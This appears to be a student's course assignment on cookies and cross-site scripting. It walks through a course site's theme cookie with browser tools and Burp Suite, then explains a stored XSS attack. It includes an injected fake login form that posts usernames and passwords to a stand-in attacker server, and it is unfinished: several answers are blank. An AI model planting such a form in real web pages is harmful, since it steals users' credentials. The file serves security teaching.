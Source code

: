 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## Cookies and cross-site scripting (XSS) ##

### Part 1: Cookies ###

1. Initial cookies for cs338.jeffondich.com - their names and values

   ***Yes, there is a cookie for the domain cs338.jeffondich.com/fdf/***
   * name: theme, value: default

2. Do cookies change with the theme?

    ***The value of the present cookie changes with the theme.***
   * For example: when I changed the theme to blue, the value associated with the theme cookie changed from default to blue
     
3. Step 1 and 2 using Burpsuite

    ***Using burpsuite, the HTTP request to cs338:jeffondich.com contains a Cookie header with its value theme set to default. The resulting HTTP response has a Set-Cookie header containing the theme as default, and experies with a data. When I change the theme of Jeff's site to be red, a new GET request is sent with theme set to red: GET /fdf/?theme=red HTTP 1.1. The Set-Cookie header in the response then has the theme value as red with the same expiration date. These changes in the cookie value are similar to those observed through the inspectpor tool***

   * Note: The very first HTTP GET request that was sent to cs338:jeffondich.com did not contain a Cookie header and the resulting response had a Set-Cookie header with the theme value. The subsequent GET requests to the site then had a Cookie header.

5. Relaunching the browser and going back to FDF.

   ***The theme to the FDF site stayed the same when I closed my Chrome browser and relaunched it. That is, I change the site from the default theme to blue and close it. When I relaunched the site, the theme was still blue***

6. How the current theme transmitted between the browser and the FDF server.

    ***When I visited the FDF site, my browser stored a cookie generated by the FDF server, in this case theme with its value. Thus when I refresh or relaunch the page, my browser automatically sends this theme cookie along with the request. The server then reads the cookie containing current value of my theme and responds with the appropriate version of the site***
   
6. How changing the theme is transmitted between the browser and the FDF server?

    ***Changing the theme updates the value of my local cookie and thus when my browser makes a new request to the server, the new value of the cookie is automatically sent as part of the HTTP request headers***

7. Using browser's inspector to change FDF theme
   
    ***Using the Inspector, in the applications tab, I was able to edit the value of the theme cookie by typing in a different theme option. When I refreshed the page, the FDF theme updated to the new set value***

8. Using Burpsuite's Proxy tool to change the FDF theme.

    ***By modifying the cookie header value of the intercepted request to the FDF server, I was able to get a response with the updated theme on the FDF site without using the theme menu***

9. Where my OS stores cookies.

    ***Each browser manages the directory and format in which its cookies are stored on my computer's hard drive***
     * For example the cookies from Google Chrome on my macOs are stored in the subdirectory ~/Library/Application Support/Google/Chrome/Default/Cookies
  
     ******

### Part 2: Cross-Site Scripting (XSS) ###

1. Step-by-step description of the nature and timing of Moriarty's attack on users of the FDF.

* Prof. Moriarty submits a post with inline HTML <span> and JavaScript <script> tags.
* The FDF server stores this unsanitized post content in its database.
* When another user clicks on Moriarty’s post, the server delivers the post content exactly as it was entered, including the <span> and <script> tags.
* The browser then interprets and executes these tag automatically as HTML and JavaScript thus Moriarty's alert and css text edits are displayed on the FDF site.

2. XSS attack that is more virulent than Moriarty's "turn something red" and "pop up a message" attacks.

   ***Moriarty could inject a fake login form into a post. When Alice views the post, she might this it is legitimae and try to login. Her username and password will then go to Moriarty instead of the real FDF server.***

  ```
  <form action="https://moriartys-server.com/steal-password" method="POST">
    <p>Your session has expired. Please log in again:</p>
    <input type="text" name="username" placeholder="Username">
    <input type="text" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  
  ```


3.
4.
5.
6. Questions:

Provide a diagram and/or a step-by-step description of the nature and timing of Moriarty's attack on users of the FDF. Note that some of the relevant actions may happen long before other actions.

Describe an XSS attack that is more virulent than Moriarty's "turn something red" and "pop up a message" attacks. Think about what kinds of things the Javascript might have access to via Alice's browser when Alice views the attacker's post.

Do it again: describe a second attack that is more virulent than Moriarty's, but that's substantially different from your first idea.

What techniques can the server or the browser use to prevent what Moriarty is doing?


